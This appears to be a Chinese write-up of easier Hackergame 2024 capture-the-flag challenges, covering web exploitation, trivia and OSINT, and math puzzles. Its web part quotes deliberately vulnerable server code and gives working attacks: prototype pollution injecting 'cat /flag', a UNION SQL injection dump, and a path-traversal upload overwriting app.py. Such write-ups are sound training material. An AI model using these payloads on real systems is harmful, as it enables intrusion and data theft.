







说明：仅包含我会做的题（基本上都是简单题）

## 目录

## web

### 签到

查看源代码，发现跳转逻辑

```js {14}
function submitResult() {
  const inputs = document.querySelectorAll(".input-box");
  let allCorrect = true;

  inputs.forEach((input) => {
    if (input.value !== answers[input.id]) {
      allCorrect = false;
      input.classList.add("wrong");
    } else {
      input.classList.add("correct");
    }
  });

  window.location = `?pass=${allCorrect}`;
}
```

所以直接在 URL 末尾追加 `?pass=true`

### 喜欢做签到的 CTFer 你们好呀

找到 [Nebula 战队官网](https://www.nebuu.la)，是个仿终端。那么敲个 `help` 先。

```shell "env"
ctfer@ustc-nebula:$ ~ help
Welcome! Here are all the available commands:

=========== Available Commands ===============

about awards banner bing cat cd echo
email env github help ls members nvim
readme repo sudo sumfetch vi whoami

==============================================

Helpful Tips:
    [tab]: trigger completion.
    [ctrl+l]/clear: clear terminal.
    Type 'sumfetch' to display summary.

Credit: Based on Cveinnt's awesome LiveTerm.
```

#### Flag 1

```shell {6}
ctfer@ustc-nebula:$ ~ env
PWD=/root/Nebula-Homepage
ARCH=loong-arch
NAME=Nebula-Dedicated-High-Performance-Workstation
OS=NixOS❄️
FLAG=flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}
REQUIREMENTS=1. you must come from USTC; 2. you must be interested in security!
```

#### Flag 2

`cat` 命令有提示；也可以 `ls -la`

```shell {13}
ctfer@ustc-nebula:$ ~ cat
file not found, maybe you can consider about Members / Awards / hidden files

ctfer@ustc-nebula:$ ~ ls -la
.flag
.oh-you-found-it/
Awards
Members
Welcome-to-USTC-Nebula-s-Homepage/
and-We-are-Waiting-for-U/

ctfer@ustc-nebula:$ ~ cat .flag
flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}
```

### 比大小王

观察前端代码然后糊一个函数丢 Console 即可

```js {"游戏逻辑在收到题目后有三秒倒计时，提前提交会检测到时空穿越":20-23}
fetch("/game", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({}),
})
  .then((response) => response.json())
  .then((data) => {
    console.log(data);
    const inputs = [];
    data["values"].forEach(([a, b]) => {
      if (a > b) {
        inputs.push(">");
      } else {
        inputs.push("<");
      }
    });
    console.log(inputs);

    setTimeout(() => {
      submit(inputs);
    }, 5000);
  })
  .catch((error) => {
    document.getElementById("dialog").textContent = "加载失败，请刷新页面重试";
  });
```

### Node.js is Web Scale

本题是 Prototype 污染。观察源码发现最终切入点显然是`execute`函数（阴阳怪气的注释也是提示）

```js {30-36,65} collapse={1-10,15-22,43-61,69-78}
// server.js
const express = require("express");
const bodyParser = require("body-parser");
const path = require("path");
const { execSync } = require("child_process");

const app = express();
app.use(bodyParser.json());
app.use(express.static(path.join(__dirname, "public")));

let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};

let store = {};

// GET /api/store - Retrieve the current KV store
app.get("/api/store", (req, res) => {
  res.json(store);
});

// POST /set - Set a key-value pair in the store
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // Set the value at the last key
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});

// GET /get - Get a key-value pair in the store
app.get("/get", (req, res) => {
  const key = req.query.key;
  const keys = key.split(".");

  let current = store;
  for (let i = 0; i < keys.length; i++) {
    const key = keys[i];
    if (current[key] === undefined) {
      res.json({ message: "Not exists." });
      return;
    }
    current = current[key];
  }

  res.json({ message: current });
});

// GET /execute - Run commands which are constant and obviously safe.
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});

app.get("*", (req, res) => {
  res.sendFile(path.join(__dirname, "public", "index.html"));
});

// Start the server
const PORT = 3000;
app.listen(PORT, () => {
  console.log(`KV Service is running on port ${PORT}`);
});
```

结合`/set`的递归赋值逻辑想出解法：

将`__proto__.hack` set 为`cat /flag`，然后访问`/execute?cmd=hack`即可。

注意这里有一个小点：`__proto__`无法覆盖已有属性，所以如果 set `__proto__.test` 是不行的

### PaoluGPT

观察后端源码注意到不加掩饰的 SQL 注入点

```python {4}
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

我的做法是构造如下 SQL 语句把所有 `title` 和 `contents` 拼在一页

```sql
select title, contents from messages where id = '' UNION SELECT GROUP_CONCAT(title, ' ') as all_titles, GROUP_CONCAT(contents, ' ') as all_contents FROM messages
```

然后保存网页源码搜 flag 即可，两问就都出来了（疑似跳过了第一问的`/list`考点？）

### 禁止内卷

```python collapse={1-9,11-40,50-71} {47}
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

UPLOAD_DIR = "/tmp/uploads"

os.makedirs(UPLOAD_DIR, exist_ok=True)

# results is a list
try:
    with open("results.json") as f:
        results = json.load(f)
except FileNotFoundError:
    results = []
    with open("results.json", "w") as f:
        json.dump(results, f)


def get_answer():
    # scoring with answer
    # I could change answers anytime so let's just load it every time
    with open("answers.json") as f:
        answers = json.load(f)
        # sanitize answer
        for idx, i in enumerate(answers):
            if i < 0:
                answers[idx] = 0
    return answers


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html", results=sorted(results))


@app.route("/submit", methods=["POST"])
def submit():
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)

    answers = get_answer()
    try:
        with open(filepath) as f:
            user = json.load(f)
    except json.decoder.JSONDecodeError:
        flash("你提交的好像不是 JSON")
        return redirect("/")
    try:
        score = 0
        for idx, i in enumerate(answers):
            score += (i - user[idx]) * (i - user[idx])
    except:
        flash("分数计算出现错误")
        traceback.print_exc()
        return redirect("/")
    # ok, update results
    results.append(score)
    with open("results.json", "w") as f:
        json.dump(results, f)
    flash(f"评测成功，你的平方差为 {score}")
    return redirect("/")
```

简单搜索可知 flask 框架有一个 `secure_filename` 方法。这个方法的存在只能说明一件事：`filename`它不 secure

注意到题目明示

> 提示：助教部署的时候偷懒了，直接用了 flask run（当然了，助教也读过 Flask 的文档，所以 DEBUG 是关了的）。而且有的时候助教想改改代码，又懒得手动重启，所以还开了 --reload。启动的完整命令为 flask run --reload --host 0。网站代码运行在 /tmp/web。

思路清晰：构造 Path Traversal 覆盖 web 服务的源码。查文档得知 flask cli 缺省文件名是 `app.py`（其实还有`wsgi.py`和这俩同名目录下`__init__.py`，不过这题不是）

先加一个路由：

```python title="server.py" ins={1-5}
@app.route("/hack", methods=["GET"])
def hack():
    with open("answers.json") as f:
        return f.read()
```

然后用 curl 传上去

```shell
curl -L https://chal02-114514.hack-challenge.lug.ustc.edu.cn:8443/submit -F 'file=@server.py;filename=../web/app.py'
```

最后访问 `/hack` 拿数据，简单后处理即可（略）

## general

### 猫咪问答（Hackergame 十周年纪念版）

1. 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？（30 分）

先找到 LUG @ USTC Wiki 的[信息安全大赛 Hackergame](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/) 词条，数年份点进[第二届安全竞赛（存档）](https://lug.ustc.edu.cn/wiki/sec/contest.html)。

> 比赛时间安排
> 10 月 17 日 周六晚上 19:30 3A204 网络攻防技巧讲座 10 月 18 日 周日上午 10:00 初赛 在线开展 10 月 24 日 周六凌晨 00:00 初赛结束 后续开展复赛

答案：`3A204`

2. 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？（30 分）

同样从[信息安全大赛 Hackergame](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/) 找到历年 Write-ups 仓库，分别数题目数。

注意到 2019 年的题目数是 28，找到对应的[活动记录](https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/)

> 经统计，在本次比赛中，总共有 2682 人注册，1904 人至少完成了一题。

答案：`2682`

3. Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？（20 分）

找到 [猫咪问答的 Write-up](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md)

> 在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？
> 打开中国科大图书馆主页，直接搜索“程序员的自我修养”即可。

同时注意到 [其他花絮](https://github.com/ustclug/hackergame2018-writeups/blob/master/misc/others.md)

> “程序员的自我修养”已经成为了图书馆本月热搜词的第一名

答案：`程序员的自我修养`

4. 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？（10 分）

打开 [USENIX Security '24 Technical Sessions](https://www.usenix.org/conference/usenixsecurity24/technical-sessions) ，`Ctrl-F` 搜 `email`

符合条件的论文是 [FakeBehalf: Imperceptible Email Spoofing Attacks against the Delegation Mechanism in Email Systems](https://www.usenix.org/conference/usenixsecurity24/presentation/ma-jinrui)，[PDF](https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf)

继续 `Ctrl-F` 搜 `combination`

> Consequently, we propose six types of email spoofing attacks and measure their impact across 16 email services and 20 clients. All 20 clients are configured as MUAs for all 16 providers via IMAP, resulting in 336 combinations (including 16 web interfaces of target providers).

答案：`336`

5. 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？（5 分）

找到 `MAINTAINERS` 的[提交记录](https://github.com/torvalds/linux/commits/master/MAINTAINERS)，略翻一下



答案：`6e90b6`

6. 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？（5 分）

用 Python 跑一下 tokenizer。

```python
from tokenizers import Tokenizer

tokenizer = Tokenizer.from_pretrained("afrias5/Allama370b")

with open("source.html", "r", encoding="utf-8") as f:
    content = f.read()
    output = tokenizer.encode(content)
    print(len(output.tokens))
```

为什么不用 `meta-llama/Meta-Llama-3-70B` 呢？因为要请求访问权限才行，我等不及。

答案：`1833`

### 打不开的盒

用任意能折腾 3D 模型的软件看看盒子内部就行。我做的时候随手打开 OrcaSlicer 直接进行一个切片。



当然你也可以……



真的把它打印出来

### 每日论文太多了！

`Ctrl-F` 搜 `flag`，根据位置判断匹配项被图片挡住了，稍微移开一些图片即可。

### 旅行照片 4.0

几乎只需要 Google Lens 和高德地图的 OSINT 题

如果你需要看题图可以去[hackergame2024-writeups/official/旅行照片 4.0](https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/README.md)

#### T1-2

T1，高德地图搜索`科里科气科创驿站`，最近的门有两个，都试试。

T2，翻[中科大LEO动漫协会个人动态](https://space.bilibili.com/7021308/dynamic)可以找到 ACG 音乐会海报。


答案：`东校区西门`、`20240519`

#### T3-4

T3，图片右下垃圾桶隐约可辨`六安`两个字，由于实在看不出其他东西于是把网上各个六安的公园都试试（？
好在 T4 非常简单，直接 Google Lens 搜图片就行。


答案：`中央森林公园`、`坛子岭`

#### T5-6

继续 Google Lens，很可惜直接搜大图没有相关结果，但单独搜索下面框出的部分就能分别解出两问。


高德地图寻找`京张高铁北京北动车所`周边的医院




答案： `积水潭医院`、`CRH6F-A`

## math

只会简单题的第一问（

### 强大的正则表达式 - Flag 1

需要一个正则判断整数是否是16的倍数，按照整除法则只需要判断末尾是否是16的倍数即可，故糊一个脚本打表。由于代码没存于是摘抄官方题解

```python
print('(0|1|2|3|4|5|6|7|8|9)*' + '(' + '|'.join(f'{i:04d}' for i in range(0, 10000, 16)) + ')')
```

### 惜字如金 3.0 - Flag 1

瞪眼，手动补全。~~至少第一问可以这么做~~
